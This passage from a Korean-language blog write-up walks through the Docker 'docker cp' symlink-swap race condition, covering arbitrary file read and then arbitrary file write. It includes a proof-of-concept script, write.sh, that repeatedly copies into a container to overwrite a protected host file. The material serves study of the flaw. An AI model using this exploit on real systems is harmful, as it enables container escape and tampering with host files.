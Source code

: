 코드를 설명해보면, 밑에 파일을 복사해서 읽기 위한 `docker cp`명령어를 500번을 수행한다. 현재 컨테이너 내부에서는` symlink_swap.c`가 계속 돌아가는 중이기 때문에 이를 통해서 파일 읽기가 가능하다.  

여기서부터가 좀 중요하다. 현재 위에서 언급한 상태 중, B 상태라고 생각을 해보자. 

```dockerfile
# B, totally_safe_path-stashed가 /를 가르키면서 루트 권한을 갖는다. 
drwxr-xr-x  totally_safe_path
lrwxrwxrwx  totally_safe_path-stashed -> /
```

해당 상황에서는 컨테이너 내부 경로인 `/totally_safe_path/flag` 가 `FollowSymlinkInScope` 함수에 인자로 전달되면 심볼릭 링크가 없는 인자이기 때문에 절대경로인`/var/lib/docker/overlay2/CONTAINER_ID/merged/totally_safe_path/flag` 가 반환된다. 그런데 만일 해당 함수의 동작이 끝나고, `/var/lib/docker/overlay2/CONTAINER_ID/merged/totally_safe_path/flag` 를 `ex${i}/out` 로 복사하려는 그 순간의 바로 직전에 A 상태가 된다면,, 취약점이 발생하는 것이다. 

```dockerfile
# A, 컨테이너 내부를 심볼릭 링크한다. 
lrwxrwxrwx  totally_safe_path -> /
drwxr-xr-x  totally_safe_path-stashed

# A로 변한 B, 호스트 로컬의 파일을 볼 수 있다. 
lrwxrwxrwx  /var/lib/docker/overlay2/CONTAINER_ID/merged/totally_safe_path -> /
drwxr-xr-x  /var/lib/docker/overlay2/CONTAINER_ID/merged/totally_safe_path-stashed
```

`/var/lib/docker/overlay2/CONTAINER_ID/merged/totally_safe_path` 가 현재 루트 dir인`/` 에 심볼릭 링크되어 있는 상태니까 실제로 수행되는 것은 `/flag` 가 루트 권한으로`ex${i}/out` 로 복사된다.  결론적으로는 읽기 권한이 없는 호스트 로컬의 `/flag` 의 내용을 읽을 수 있게 된다.  

직관적으로 표현하면 아래 그림과 같다.

![image-20230102192128990](C:\Users\kangs\AppData\Roaming\Typora\typora-user-images\image-20230102192128990.png)

도커 컨테이너 내부에 위치한 /flag파일을 로컬로 읽어드린다. 



<h4>Exploit - Arbitrary File Write</h4>

이번에는 파일에 글을 작성해보자. 원리는 동일하다. 

```shell
$ echo "Host File Unchanged" | sudo tee /flag
Host File Unchanged
$ sudo chmod 0444 /flag
$ echo "Host File Changed" > /flag 
bash: /flag: Permission denied
```

이번의 목표는 호스트 로컬의 파일인 `/flag`에 Host File Unchanged를 적는 것이다. 

이번에는 write.sh를 보자.

```sh
#!/bin/sh

# dockerfile과 symlin_swap.c로 poc라는 이름의 이미지를 생성 및 도커 컨테이너 실행
docker build -t poc .
container_id=$(docker run --rm -d poc)

echo "Host File Changed" > localpath

# 이제 계속 파일을 작성하기 위한 공격 시도
i=0
while [ $i -lt 500 ]
do
# 이게 핵심.. 로컬에 위치한 파일을 컨테이너 내부의  /totally_safe_path/flag으로 복사하는 명령어. 성공한다면 해당 파일에 로컬 파일의 내용인, Host File Changed가 적힐 것이다.
	docker cp localpath "${container_id}:/totally_safe_path/flag"
	i=$(($i + 1))
done
```